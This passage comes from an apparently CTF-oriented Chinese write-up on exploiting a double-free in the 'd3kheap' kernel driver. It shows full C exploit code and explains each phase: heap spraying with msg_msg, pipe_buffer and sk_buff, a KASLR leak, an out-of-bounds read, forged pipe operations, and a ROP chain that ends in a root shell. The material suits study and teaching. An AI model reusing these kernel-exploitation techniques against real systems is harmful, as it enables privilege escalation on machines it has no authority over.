  log.success("Fake ops written to queue %d", nearby_qid);

  log.info("Leaking address of fake ops msg_msg");
  peek_msg(msqid[victim_qid], &msg_data,
           OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);
  leak_data = (size_t *)&msg_data.mtext[0x400 * nearby_offset_idx - sizeof(struct msg_msg)];
  nearby_msg_msg_addr = leak_data[0];
  hex_dump2("Fake ops msg_msg data:", leak_data, 0x50);
  log.success("Leaked fake ops msg_msg address: 0x%lx", nearby_msg_msg_addr);

  log.info("Releasing sk_buff objects to free memory");
  if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to free sk_buff!");
    exit(-1);
  }
}

/**
 * @brief Phase 8: Bypass free checks with forged msg_msg
 * Constructs a forged msg_msg to bypass security checks during free operation
 */
void phase_8_bypass_free_checks(void) {
  log.info("===========================================================");
  log.info("PHASE 8: BYPASS FREE CHECKS WITH FORGED MSG_MSG           ");
  log.info("===========================================================");

  log.info("Constructing forged msg_msg to bypass free() validation");
  build_msg((struct msg_msg *)fake_msg, nearby_msg_queue_addr + 0xc0,
            nearby_msg_queue_addr + 0xc0, MSG_TYPE,
            MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  log.info("Re-spraying sk_buff with forged msg_msg");
  if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to re-spray sk_buff!");
    exit(-1);
  }
  log.success("Forged msg_msg sprayed successfully");

  log.info("Triggering free of forged msg_msg");
  read_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);

  log.info("Re-spraying pipe buffers to reclaim memory");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
    write(pipe_fds[i][1], pipe_data, 0x20);
  }
  log.success("Pipe buffer re-spray completed");

  log.info("Final cleanup of sk_buff objects");
  if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to free sk_buff again!");
    exit(-1);
  }
}

/**
 * @brief Phase 9: ROP chain construction and control flow hijack
 * Builds fake pipe_buffer and ROP chain for privilege escalation
 */
void phase_9_build_rop_chain(void) {
  log.info("===========================================================");
  log.info("PHASE 9: ROP CHAIN CONSTRUCTION & CONTROL FLOW HIJACK     ");
  log.info("===========================================================");

  log.info("Building fake pipe_buffer structure");
  fake_pipe_buffer = (size_t *)fake_msg;
  fake_pipe_buffer[0] = kernel_offset + ADD_RSP_0X50_RET;  // page field
  fake_pipe_buffer[2] = nearby_msg_msg_addr + 0x40;        // ops field
  log.success("Fake pipe_buffer constructed at 0x%lx", (size_t)fake_pipe_buffer);

  log.info("Constructing ROP chain for privilege escalation");
  rop_chain = (size_t *)&fake_msg[0x39];
  rop_chain[0] = kernel_offset + POP_RSP_RET;

  rop_chain = (uint64_t *)&fake_msg[0x50];
  rop_idx = 0;
  rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
  rop_chain[rop_idx++] = kernel_offset + POP_RDI_RET;       // pop rdi gadget
  rop_chain[rop_idx++] = 0;                                 // NULL argument
  rop_chain[rop_idx++] = kernel_offset + PREPARE_KERNEL_CRED; // prepare_kernel_cred(0)
  rop_chain[rop_idx++] = kernel_offset + POP_RCX_RET;       // pop rcx gadget
  rop_chain[rop_idx++] = 0;                                 // 0 argument
  rop_chain[rop_idx++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET; // mov rdi, rax
  rop_chain[rop_idx++] = kernel_offset + COMMIT_CREDS;      // commit_creds()
  rop_chain[rop_idx++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
  rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
  rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
  rop_chain[rop_idx++] = (size_t)get_root_shell;            // Return to user shell
  rop_chain[rop_idx++] = user_cs;                           // User code segment
  rop_chain[rop_idx++] = user_rflags;                       // User flags
  rop_chain[rop_idx++] = user_sp + 8;                       // User stack pointer
  rop_chain[rop_idx++] = user_ss;                           // User stack segment

  log.success("ROP chain constructed with %d gadgets", rop_idx);

  log.info("Final sk_buff spray to hijack pipe_buffer->ops->release");
  if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Final sk_buff spray failed!");
    exit(-1);
  }
  log.success("Payload deployed successfully");
}

/**
 * @brief Phase 10: Trigger exploit and gain root privileges
 * Closes pipes to trigger the exploit and spawn root shell
 */
void phase_10_trigger_exploit(void) {
  log.info("===========================================================");
  log.info("PHASE 10: TRIGGER EXPLOIT & GAIN ROOT PRIVILEGES           ");
  log.info("===========================================================");

  log.info("Closing pipes to trigger fake ops->release handler");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    close(pipe_fds[i][0]);
    close(pipe_fds[i][1]);
  }

  log.success("Exploit triggered! Check for root shell...");
}

/* ===========================================================
 * MAIN EXPLOIT ENTRY POINT
 * =========================================================== */
int main(int argc, char **argv, char **envp) {
  /* Execute exploit phases sequentially */
  phase_1_init_environment();
  phase_2_prepare_sockets();
  phase_3_spray_msg_queues();
  phase_4_trigger_uaf();
  phase_5_identify_victim();
  phase_6_oob_read_leak();
  phase_7_build_fake_ops();
  phase_8_bypass_free_checks();
  phase_9_build_rop_chain();
  phase_10_trigger_exploit();

  return 0;
}
```

### 3-1. 利用流程总览

本章将详细分析针对d3kheap驱动程序Double Free漏洞的完整利用过程。整个利用链被精心设计为十个逻辑严密的阶段，从环境初始化开始，逐步建立内存控制、信息泄露、结构伪造和代码执行能力，最终实现权限提升。每个阶段都建立在前一阶段的基础上，形成渐进式的控制增强过程。



整个利用过程的核心挑战在于现代Linux内核的多重安全机制。在`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`配置启用的环境中，所有分配的内存在返回给调用者之前都会被清零，传统的信息泄露方法难以生效。同时，KASLR（内核地址空间布局随机化）通过随机化内核地址增加了利用难度。本利用链通过精巧的设计，在相对受限的条件下成功绕过了这些保护。

### 3-2. 阶段1：环境初始化与设备准备

**阶段目标**：建立稳定可控的执行环境，为后续复杂的内存操作打下坚实基础。这个阶段处理了CPU核心绑定、用户状态保存和漏洞设备访问等基础问题，确保利用过程在可预测的条件下执行。

```c
void phase_1_init_environment(void) {
  log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP");

  bind_core(0);                         // 绑定到CPU核心0
  save_status();                        // 保存用户空间寄存器状态

  dev_fd = open("/dev/d3kheap", O_RDONLY);
  if (dev_fd < 0) {
    log.error("Failed to open /dev/d3kheap!");
    exit(-1);
  }
  log.success("Device opened successfully, fd: %ld", dev_fd);
}
```

CPU核心绑定通过`bind_core(0)`将当前进程固定到CPU 0上执行。在多核处理器系统中，Linux内核的调度器会将进程在不同的CPU核心之间迁移，这种迁移会导致缓存状态的变化，进而影响内存分配器的行为。对于依赖精确时序和内存布局的漏洞利用来说，这种不确定性是致命的。通过CPU绑定，确保了所有内存操作都在同一个CPU核心的上下文中进行，提高了时序的一致性，减少了缓存效应带来的干扰。

用户状态保存操作通过`save_status()`函数保存关键的寄存器状态，包括代码段寄存器CS、栈指针RSP、标志寄存器RFLAGS等。这些值在内核执行过程中会被修改，但在返回用户空间时必须恢复原状。特别需要注意的是，保存的栈指针值在后续构造ROP链时会用到，任何错误都可能导致返回用户空间时发生崩溃。

设备访问是触发漏洞的前提条件。d3kheap驱动程序通过字符设备接口暴露其功能，因此需要打开`/dev/d3kheap`设备节点。成功打开设备后获得的文件描述符`dev_fd`将成为后续所有`ioctl`调用的通道。

### 3-3. 阶段2：套接字对准备

**阶段目标**：创建大量Unix域套接字对，为后续的`sk_buff`堆喷操作建立基础设施。`sk_buff`是Linux网络子系统的核心数据结构，通过控制`sk_buff`可以实现对内核内存的精确操控。

```c
void phase_2_prepare_sockets(void) {
  log.info("PHASE 2: SOCKET PAIR PREPARATION FOR HEAP SPRAYING");

  for (int i = 0; i < SOCKET_NUM; i++) {
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fds[i]) < 0) {
      log.error("Failed to create socket pair %d!", i);
      exit(-1);
    }
  }
  log.success("Successfully created %d socket pairs", SOCKET_NUM);
}
```

创建套接字对的数量`SOCKET_NUM`是一个需要精心选择的参数。数量太少可能导致堆喷密度不足，无法可靠覆盖目标内存区域；数量太多则可能消耗过多系统资源，甚至触发内存压力机制，影响系统稳定性。套接字对的管理采用了二维数组的结构`sock_fds[SOCKET_NUM][2]`，这种结构使得每个套接字对的读写端可以通过统一的索引进行访问，简化了后续的数据读写操作。

Unix域套接字对的选择基于多种考虑的综合结果。与网络套接字相比，Unix域套接字具有几个显著优势：首先，它们完全在操作系统内核内部处理，不涉及网络协议栈，因此性能更高，开销更小；其次，Unix域套接字的数据传输不经过网络设备，减少了外部干扰；最后，Unix域套接字的内存分配模式更加可控，适合用于精确的内存布局。

### 3-4. 阶段3：消息队列堆喷与内存布局

**阶段目标**：通过System V消息队列大量分配`msg_msg`结构，占据d3kheap驱动程序释放的内存区域，建立可控的内存布局环境。这个阶段是内存控制的开端，为后续的漏洞触发创造条件。

```c
void phase_3_spray_msg_queues(void) {
  log.info("PHASE 3: MESSAGE QUEUE SPRAYING & OVERLAPPING OBJECT SETUP");

  // 创建消息队列
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  }

  // 触发驱动程序内存分配与释放
  add_chunk();
  delete_chunk();

  // 堆喷msg_msg结构
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
    *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
    *(size_t *)&msg_data.mtext[16] = i;
    write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE);
  }
}
```

消息队列的创建采用了批量化的策略，一次性创建`MSG_QUEUE_NUM`（4096）个消息队列。每个消息队列通过`msgget`系统调用创建，使用`IPC_PRIVATE`键确保队列的唯一性。在消息队列创建完成后，利用代码开始与漏洞驱动程序交互。首先调用`add_chunk()`函数触发驱动程序的`OBJ_ADD`命令，这会执行`kmalloc(1024, GFP_KERNEL)`分配1024字节的内存缓冲区。然后立即调用`delete_chunk()`触发`OBJ_DEL`命令，由于驱动程序的引用计数漏洞，释放后指针未清空，形成了悬垂指针。

驱动程序内存释放后，立即开始消息堆喷操作。堆喷的过程是向每个消息队列发送一个特定格式的消息。消息的大小被精心选择为`MSG_SIZE`（0x400，1024字节），这与驱动程序分配的内存大小完全一致。这种大小匹配确保了两种对象从相同的Slab缓存（kmalloc-1k）中分配，大大增加了内存重用的概率。

```
内存布局变化示意图：
+-------------------+     +-------------------+     +-------------------+
| 驱动程序缓冲区    |     | 空闲状态          |     | msg_msg结构       |
| 1024字节          | --> | 等待分配          | --> | 占据相同内存      |
| ref_count=2       |     |                   |     | 包含控制数据      |
+-------------------+     +-------------------+     +-------------------+
    阶段3开始时               释放后状态              堆喷后状态
```

消息堆喷的时机控制至关重要。理想情况下，消息分配应该在驱动程序内存释放后立即执行，以减少其他内核代码占用目标内存的机会。在实际代码中，这是通过连续调用`delete_chunk()`和消息发送循环实现的，中间没有明显的延迟。然而，在真实的并发系统中，完全消除竞争是不可能的，因此需要通过大量堆喷来提高概率。4096个消息的堆喷意味着即使有部分竞争，仍有很大概率至少有一个消息占据目标内存。

### 3-5. 阶段4：触发Use-After-Free漏洞

**阶段目标**：通过再次调用`delete_chunk()`触发Double Free漏洞，将`msg_msg`结构释放，然后通过管道缓冲区堆喷重新占用该内存，建立`msg_msg`与`pipe_buffer`的结构重叠。这种重叠将简单的Double Free转化为更强大的Use-After-Free原语。

```c
void phase_4_trigger_uaf(void) {
  log.info("PHASE 4: TRIGGER USE-AFTER-FREE VULNERABILITY");

  delete_chunk();  // 第二次释放，触发Double Free

  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
    write(pipe_fds[i][1], pipe_data, 0x1000);
    write(pipe_fds[i][1], pipe_data, 0x1000);
  }
}
```

Double Free的触发机制基于驱动程序中引用计数管理的根本缺陷。在阶段3结束时，驱动程序的状态是`ref_count = 1`，`buf`指针指向已被`msg_msg`结构占用的内存区域。当再次调用`delete_chunk()`时，驱动程序检查`ref_count`不为0，将其递减到0，然后再次调用`kfree(buf)`释放内存。这是对同一内存地址的第二次释放，构成了Double Free条件。

Double Free触发后，立即开始管道缓冲区堆喷。管道是Unix系统的经典进程间通信机制，在内核中通过`pipe_buffer`结构管理数据缓冲区。每个管道可以包含多个缓冲区，每个缓冲区对应一个`pipe_buffer`结构。管道堆喷的数量选择为`MAX_PIPE_COUNT`（480个管道），这个数字基于多方面的计算。每个管道在创建时通常会分配16个`pipe_buffer`结构，但通过写入数据可以触发额外的分配。

```c
/* offset      |    size */  type = struct msg_msg {
/* 0x0000      |  0x0010 */    struct list_head {
/* 0x0000      |  0x0008 */        struct list_head *next;
/* 0x0008      |  0x0008 */        struct list_head *prev;

                                   /* total size (bytes):   16 */
                               } m_list;
/* 0x0010      |  0x0008 */    long m_type;
/* 0x0018      |  0x0008 */    size_t m_ts;
/* 0x0020      |  0x0008 */    struct msg_msgseg *next;
/* 0x0028      |  0x0008 */    void *security;

                               /* total size (bytes):   48 */
                             }
/* offset      |    size */  type = struct pipe_buffer {
/* 0x0000      |  0x0008 */    struct page *page;
/* 0x0008      |  0x0004 */    unsigned int offset;
/* 0x000c      |  0x0004 */    unsigned int len;
/* 0x0010      |  0x0008 */    const struct pipe_buf_operations *ops;
/* 0x0018      |  0x0004 */    unsigned int flags;
/* XXX  4-byte hole      */
/* 0x0020      |  0x0008 */    unsigned long private;

                               /* total size (bytes):   40 */
                             }
```

```
内存结构重叠示意图：
+-------------------------------+     +-------------------------------+
| msg_msg结构                   |     | pipe_buffer结构               |
|                               |     |                               |
| m_list.next   : 0x...         |     | page         : 内核页面       |
| m_list.prev   : 0x...         |     | offset       : 0              |
|                               |     | len          : 0x1000         |
| m_type        : 0x41          |     | ops          : 0x...          |
| m_ts          : 0x3d0         |     | flags        : 0x10           |
| ...                           |     | ...                           |
+-------------------------------+     +-------------------------------+
        重叠前视图                       重叠后实际内容

同一内存区域的两种视图：
地址: 0xffff88800abc1000
+00: 0xffff88800abc1000  (m_list.next / page)
+08: 0xffff88800abc1008  (m_list.prev / offset+len)
+10: 0xffff88800abc1010  (m_type / ops)
+18: 0xffff88800abc1018  (m_ts / flags)
```

结构重叠的建立是这个阶段的核心成就。成功堆喷后，其中一个`pipe_buffer`结构占据刚刚被Double Free释放的内存区域。这个内存区域原本被`msg_msg`结构占用，现在被`pipe_buffer`结构覆盖，形成了两种结构类型的重叠。这种重叠创造了类型混淆的条件：通过消息队列接口访问这个内存区域时，期望看到`msg_msg`结构，但实际上看到的是`pipe_buffer`结构。这种类型混淆是后续信息泄露的基础。

### 3-6. 阶段5：目标识别与内核基址泄露

**阶段目标**：识别包含重叠结构的目标消息队列，从`pipe_buffer`结构中泄露内核地址信息，计算内核基址，绕过KASLR保护。这个阶段是信息获取的关键，为后续的代码执行提供必要的地址信息。

```c
void phase_5_identify_victim(void) {
  log.info("PHASE 5: IDENTIFY VICTIM OBJECT & LEAK KERNEL BASE");

  // 扫描消息队列定位目标
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    int ret = peek_msg(msqid[i], &msg_data, sizeof(msg_data), 0);
    if (ret != (MSG_SIZE - sizeof(struct msg_msg))) {
      victim_qid = i;
      leak_data = (size_t *)&msg_data;
      kernel_offset = leak_data[0] - ANON_PIPE_BUF_OPS;
      kernel_base += kernel_offset;
      break;
    }
  }

  // 为管道创建唯一标识
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    read(pipe_fds[i][0], pipe_data, 0x1000);
    read(pipe_fds[i][0], pipe_data, i + 1);
  }

  // 识别目标管道
  peek_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);
  leak_data = (size_t *)&msg_data;
  victim_pipe_idx = (leak_data[1] & 0xFFFFFFFFULL) - 1;

  // 释放目标管道
  close(pipe_fds[victim_pipe_idx][0]);
  close(pipe_fds[victim_pipe_idx][1]);
}
```

目标识别的过程基于一个关键的观察：当通过消息队列接口读取与`pipe_buffer`重叠的内存时，返回的数据特征会与正常消息不同。正常`msg_msg`结构包含消息头和用户数据，而`pipe_buffer`结构包含完全不同的字段。`peek_msg`函数（内部调用`msgrcv` 和 `MSG_COPY | IPC_NOWAIT`标志）被用来检查每个消息队列的内容。当读取到重叠结构时，返回的数据大小、内容格式都会异常，这成为识别目标队列的信号。

从识别出的重叠结构中，可以提取关键的内核地址信息。`pipe_buffer`结构包含一个重要的字段`ops`，这是一个指向`pipe_buf_operations`结构体的指针。这个结构体包含管道缓冲区的操作函数表，是内核代码段的一部分。通过读取`pipe_buffer`结构的适当偏移，可以获取这个指针的值。

获取内核地址信息后，利用代码需要精确定位是哪个具体的管道与`msg_msg`重叠。这通过为每个管道创建唯一标识来实现。首先从每个管道读取一整页数据（0x1000字节）来重置读取位置，然后读取`i+1`字节创建唯一标识。这些操作会修改`pipe_buffer`结构的内部状态，特别是`offset`和`len`字段。通过为每个管道设置不同的读取量，创建了唯一的`(offset, len)`组合。

创建唯一标识后，再次通过`peek_msg`读取目标消息队列，从泄露的数据中提取管道状态信息。在`pipe_buffer`结构中，`offset`和`len`字段位于特定的偏移位置。通过解析这些字段的值，可以反推出是哪个管道创建的标识。计算`victim_pipe_idx = (leak_data[1] & 0xFFFFFFFFULL) - 1`，这个计算基于标识创建时读取的字节数`i+1`。

成功识别目标管道后，需要将其释放以创建内存空洞。关闭管道的读写文件描述符会触发管道资源的释放，包括`pipe_buffer`结构。这个操作在内存中创建一个空洞，为后续的状态转换创造条件。

### 3-7. 阶段6：越界读取与邻近对象泄露

**阶段目标**：在释放目标管道后，通过`sk_buff`堆喷建立新的内存重叠，构造越界读取条件，泄露同一内存页中邻近消息队列的地址信息。这个阶段扩展了信息获取范围，为后续的虚假结构构造提供目标。

```c
void phase_6_oob_read_leak(void) {
  log.info("PHASE 6: OUT-OF-BOUNDS READ TO LEAK ADJACENT OBJECTS");

  // 构造用于越界读取的伪造msg_msg
  build_msg((struct msg_msg *)fake_msg, 0, 0, MSG_TYPE,
            OOB_MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  // 堆喷sk_buff填充内存空洞
  spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg));

  // 清理非目标管道
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    if (i == victim_pipe_idx) continue;
    close(pipe_fds[i][0]);
    close(pipe_fds[i][1]);
  }

  // 执行越界读取
  peek_msg(msqid[victim_qid], &msg_data,
           OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);

  // 查找邻近msg_msg
  for (int i = 1; i < 3; i++) {
    leak_data = (size_t *)&msg_data.mtext[0x400 * i - sizeof(struct msg_msg)];
    if (leak_data[2] == MSG_TYPE) {
      nearby_offset_idx = i;
      found_nearby_msg_msg = 1;
      break;
    }
  }

  // 提取邻近对象信息
  nearby_msg_queue_addr = leak_data[0] - 0xc0;
  nearby_qid = leak_data[8];
}
```

内存状态的转换是这个阶段的起点。在阶段5结束时，目标管道被关闭，对应的`pipe_buffer`结构被释放，在内存中留下一个空洞。这个空洞现在可以被其他类型的对象占用。通过`sk_buff`堆喷，这个空洞被`sk_buff`结构填充，形成`sk_buff`与`msg_msg`的新重叠。`sk_buff`是Linux网络子系统的核心数据结构，通过套接字写入操作可以分配和控制这些结构。

越界读取的关键在于修改`msg_msg`结构的`m_ts`字段。这个字段表示消息的总大小，决定了通过消息队列接口可以读取多少数据。正常消息的`m_ts`值为`MSG_SIZE - sizeof(struct msg_msg)`，即消息数据部分的大小。通过将这个值修改为更大的值（`OOB_MSG_SIZE - sizeof(struct msg_msg)`，其中`OOB_MSG_SIZE`为0x1000），可以扩展可读取的范围。扩展后的读取范围可以覆盖同一内存页中的相邻对象，实现越界访问。

```
内存页布局和越界读取范围：
内存页边界: 0xffff88800abc1000 - 0xffff88800abc2000 (4KB)

+------------------------+ 0xffff88800abc1000
| msg_msg (victim)       | <- 读取起点
| m_ts = 0x1000          |
| ...                    |
+------------------------+ 0xffff88800abc1200
| 空闲区域               |
+------------------------+ 0xffff88800abc1400
| msg_msg (邻近1)        | <- 越界读取可访问
| m_list.next = 0x...    |
| m_type = 0x41          |
+------------------------+ 0xffff88800abc1800
| msg_msg (邻近2)        | <- 越界读取可访问
| ...                    |
+------------------------+ 0xffff88800abc1c00
| 其他内核对象           |
+------------------------+ 0xffff88800abc2000
```

`sk_buff`堆喷在这个过程中扮演双重角色。首先，它填充内存空洞，建立`sk_buff`与`msg_msg`的重叠。其次，通过控制`sk_buff`的数据内容，可以间接修改重叠的`msg_msg`结构。具体来说，`sk_buff`的数据缓冲区与`msg_msg`结构的用户数据部分重叠，通过向套接字写入特定格式的数据，可以修改`msg_msg`结构的头部字段，包括`m_ts`。这种间接修改需要精确的偏移计算，确保数据写入正确的位置。

清理非目标管道是为了减少干扰。在阶段4中创建了大量管道，现在除了目标管道外，其他管道都不再需要。关闭这些管道的文件描述符会释放相关的`pipe_buffer`结构，减少内存使用，简化内存状态。更重要的是，减少了并发内存操作的潜在干扰，使得内存布局更加可控。

在读取的数据中搜索邻近的`msg_msg`结构是一个模式匹配过程。代码在偏移`0x400 * i - sizeof(struct msg_msg)`处（i从1开始递增）检查数据，寻找特定的模式。检查的条件是`leak_data[2] == MSG_TYPE`，即第三个8字节值等于消息类型标识。这个检查基于`msg_msg`结构的布局：`m_list.next`、`m_list.prev`、`m_type`、`m_ts`等字段。`m_type`字段位于特定偏移，如果这个字段的值等于预期的`MSG_TYPE`，就很可能是一个有效的`msg_msg`结构。

发现邻近`msg_msg`结构后，可以提取有价值的信息。最重要的是`m_list.next`指针，它指向消息队列中的下一个消息，或者如果这是队列中的唯一消息，它指向消息队列结构本身。通过这个指针可以计算消息队列的地址：`nearby_msg_queue_addr = leak_data[0] - 0xc0`。0xc0是`msg_msg`结构在消息队列中的典型偏移，但这个值可能因内核版本而异。另一个重要信息是队列ID，存储在消息数据的特定偏移处（`leak_data[8]`），用于后续操作。

### 3-8. 阶段7：伪造管道操作函数表

**阶段目标**：在邻近消息队列中构造伪造的`pipe_buffer->ops`结构，包含栈迁移gadget，为控制流劫持做准备。利用内核链表操作副作用泄露虚假结构的地址，验证内存控制的有效性。

```c
void phase_7_build_fake_ops(void) {
  log.info("PHASE 7: FAKE PIPE_BUFFER OPERATIONS CONSTRUCTION");

  // 在邻近消息队列中写入伪造的ops
  *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
  *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
  *(size_t *)&msg_data.mtext[16] = *(size_t *)"BinRacer";
  *(size_t *)&msg_data.mtext[24] = kernel_offset + PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39;

  write_msg(msqid[nearby_qid], &msg_data, sizeof(msg_data), MSG_TYPE);

  // 泄露伪造ops的地址
  peek_msg(msqid[victim_qid], &msg_data,
           OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);
  leak_data = (size_t *)&msg_data.mtext[0x400 * nearby_offset_idx - sizeof(struct msg_msg)];
  nearby_msg_msg_addr = leak_data[0];

  // 释放sk_buff
  free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg));
}
```

虚假结构的构造基于对内核数据布局的深入理解。`pipe_buf_operations`是一个结构体，包含多个函数指针，对应管道缓冲区的各种操作：`confirm`确认操作、`release`释放操作、`try_steal`尝试窃取操作等。其中`release`操作在管道缓冲区被释放时调用，这是触发控制流劫持的理想点。通过将`release`函数指针修改为特定的gadget地址，可以在管道关闭时捕获控制流。

在实现中，虚假结构被构造在邻近消息队列的第二个消息中。首先在邻近消息队列（`nearby_qid`）中写入第二个消息，消息内容被精心格式化为伪造的`pipe_buffer->ops`结构。关键是在偏移0x18处（对应`release`函数指针）写入栈迁移gadget的地址`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`。这个gadget的选择基于其功能：它将RSI寄存器的值压栈，然后跳转到`[RSI+0x39]`处的地址执行。

```
伪造的pipe_buf_operations结构布局：
+---------------------+---------------------+
| 偏移  | 字段名       | 值                 |
+---------------------+---------------------+
| 0x00  | confirm     | 任意值              |
| 0x08  | release     | 栈迁移gadget地址    |
| 0x10  | try_steal   | 任意值              |
| 0x18  | get         | 任意值              |
+---------------------+---------------------+

栈迁移gadget: PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39
功能: push rsi; jmp qword ptr [rsi+0x39]
当RSI指向pipe_buffer结构时，跳转到[rsi+0x39]处的地址
```

链表操作的副作用是这个阶段的关键技术洞察。当向消息队列写入第二个消息时，内核会自动更新消息队列的链表结构。具体来说，第一个消息的`msg_msg->m_list.next`指针会被修改为指向第二个消息。这个操作是内核正常功能的一部分，但可以被恶意利用。由于第一个消息可以通过越界读取访问，其`next`指针的值可以被读取，从而泄露第二个消息的地址，也就是伪造`pipe_buffer->ops`结构的地址。

```
链表更新示意图：
写入前:
msg_queue -> msg1(m_list.next->msg_queue)
写入后:
msg_queue -> msg1(m_list.next->msg2) -> msg2(m_list.next->msg_queue)

通过越界读取msg1，可以获得msg2的地址
nearby_msg_msg_addr = leak_data[0] = msg2的地址
```

地址验证是确保利用可靠性的重要步骤。通过再次执行越界读取，从目标消息队列获取邻近队列的第一个消息，从中提取`m_list.next`指针的值。这个值就是伪造`pipe_buffer->ops`结构的地址，存储为`nearby_msg_msg_addr`。验证这个地址的合理性（例如，是否在合理的堆地址范围内，是否与预期值一致）可以确认虚假结构构造成功。

内存资源的释放是这个阶段的最后一步。调用`free_sk_buff`释放之前堆喷的`sk_buff`结构，清理内存空间。这个操作很重要，因为它为后续操作腾出内存，减少内存碎片和竞争。同时，它也改变了内存状态，为下一阶段的重叠建立创造条件。

### 3-9. 阶段8：绕过释放检查

**阶段目标**：构造特殊的`msg_msg`结构，绕过内核释放时的链表完整性检查，确保能够安全释放目标消息。通过`sk_buff`重新控制内存状态，建立新的重叠条件，为最终的payload部署做好准备。

```c
void phase_8_bypass_free_checks(void) {
  log.info("PHASE 8: BYPASS FREE CHECKS WITH FORGED MSG_MSG");

  // 构造绕过检查的伪造msg_msg
  build_msg((struct msg_msg *)fake_msg, nearby_msg_queue_addr + 0xc0,
            nearby_msg_queue_addr + 0xc0, MSG_TYPE,
            MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  // 重新堆喷sk_buff
  spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg));

  // 触发释放操作
  read_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);

  // 重新堆喷管道缓冲区
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
    write(pipe_fds[i][1], pipe_data, 0x20);
  }

  // 清理sk_buff
  free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg));
}
```

链表完整性检查是现代Linux内核的重要安全机制之一。当内核释放`msg_msg`结构时，它会检查该结构在消息队列链表中的前后指针是否一致。具体来说，会检查`m_list.next->prev`和`m_list.prev->next`是否都指向当前消息队列地址。这个检查旨在检测内存损坏和某些类型的利用。如果指针不一致，内核可能触发警告或直接崩溃。为了后续利用，必须确保释放的`msg_msg`结构通过这个检查，否则利用链会中断。

伪造`msg_msg`结构的构造是为了满足链表检查的要求。通过`build_msg`函数构建一个新的`msg_msg`结构，将其`m_list.next`和`m_list.prev`指针都设置为`nearby_msg_queue_addr + 0xc0`。这个地址是之前泄露的邻近消息队列地址加上固定偏移0xc0。选择这个值的原因是它可能对应消息队列中某个有效的位置，使得链表检查通过。精确的偏移值需要根据内核版本和结构布局确定，0xc0是一个常见值，但实际可能不同。

重新堆喷`sk_buff`是为了将伪造的`msg_msg`结构写入目标内存。由于`sk_buff`与`msg_msg`存在内存重叠，通过向套接字写入包含伪造`msg_msg`头部的数据，可以修改目标内存中的`msg_msg`结构。这个操作需要精确的偏移控制，确保伪造的头部覆盖正确的位置。成功覆盖后，目标内存中的`msg_msg`结构就具有了合法的链表指针，可以通过内核的检查。

触发释放操作是通过`read_msg`系统调用实现的。这个调用会从消息队列中移除并释放消息，触发`msg_msg`结构的释放流程。由于链表指针已经被正确设置，释放操作应该通过完整性检查，正常完成。成功的释放操作在内存中创建一个空洞，这个空洞可以被重新分配。更重要的是，释放操作不会导致内核崩溃，保持了系统的稳定性，这是后续操作的前提。

```
内存状态转换流程图：
+---------------------+     +---------------------+     +---------------------+
| sk_buff/msg_msg     |     | 内存空洞            |     | pipe_buffer/sk_buff |
| 重叠状态            | --> | 释放msg_msg后       | --> | 重新堆喷后新重叠    |
| (阶段6结束时)       |     |                     |     | (阶段8结束时)       |
+---------------------+     +---------------------+     +---------------------+
         |                          |                          |
         | 1. 伪造msg_msg结构       | 2. 通过sk_buff写入       | 3. 释放msg_msg
         |    设置合法指针          |    修改目标内存          |    通过完整性检查
         |                          |                          |
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 准备释放            | --> | 释放完成            | --> | 管道堆喷            |
| 链表指针已设置      |     | 创建空洞            |     | 建立新重叠          |
+---------------------+     +---------------------+     +---------------------+
```

管道缓冲区的重新堆喷是为了建立新的内存重叠状态。在释放`msg_msg`后，立即创建大量管道并写入少量数据（0x20字节）。这个操作会分配`pipe_buffer`结构，这些结构可能占据刚刚释放的内存区域。与阶段4的管道堆喷不同，这次堆喷的目标是建立`pipe_buffer`与`sk_buff`的重叠，而不是`pipe_buffer`与`msg_msg`的重叠。这种新的重叠状态为下一阶段的`pipe_buffer`控制提供了基础。

